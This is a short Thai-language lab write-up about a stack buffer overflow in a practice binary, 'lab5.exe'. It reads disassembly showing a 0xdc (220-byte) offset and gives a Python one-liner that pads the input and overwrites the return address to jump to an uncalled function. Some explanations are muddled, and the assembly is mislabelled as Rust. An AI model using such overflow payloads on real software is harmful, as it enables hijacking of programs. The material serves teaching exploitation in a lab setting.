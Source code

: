 เราสังเกตว่ามีการใช้ 0xDC เยอะผิดปกติประกอบกับว่าตัว charที่ให้มาถึง 200 ช่องนั้นมีอะไรเกี่ยวกันหรือไม่ ซึ่ง 0xdc(%esp),%edx ตัวนี้มันดันมี esp กับ edx มาด้วยซึ่ง esp มันคือ stack pointer เอาไว้ชี้ address ที่มันกองซ้อนๆกัน ประกอบกับ edx คือ register 

```Rust
  4013b6:	8b 94 24 dc 00 00 00 	mov    0xdc(%esp),%edx
  4013bd:	8b 84 24 dc 00 00 00 	mov    0xdc(%esp),%eax
```
จะเห็นได้ว่ามีการ move 0xdc ที่ใช้ stack pointer ไปที่ edx ตลอด ซึ่งเราสามารถใช้ตัว 0xdc นี้ให้เป็นประโยชน์ได้

```Rust
0xDC or 0xdc // ในฐาน 16 มีค่าเท่ากับ 220 ในฐานสิบ
```
กลับมาที่ char name[200] กันต่อซึ่ง name[200] ตัวนี้ใช้ 0xdc ที่มีค่า 220 เพื่อจองหน่วยความจำไว้ให้ 220 bytes ส่วนอีก 4 bytes จะเก็บที่ esp ในกรณีพิเศษ ซึ่งหมายความว่า 220 bytes เนี้ยมันจะสุ่มอะไรก็ได้ออกมาก็ได้ ส่วนอีก 4 bytes เนี่ยมันเอาไว้เรียกฟังก์ชั่นที่ไม่ได้มีใครเรียกหรือ special function() นั่นเอง ซึ่งเท่า 220+4 = 224 bytes ที่เราจะใช้นั่นเอง

```bash
Python -c  "print('a' * 220 +  '\x56\x13\x40\x00')" | lab5.exe
```

```bash
Python -c  "print('a' * 220 +  '\x56\x13\x40\x00')" 
                   ^     ^              ^
                   |     |              |
                ตัวไรก็ได้   0xdc  reverse ของ special function  
```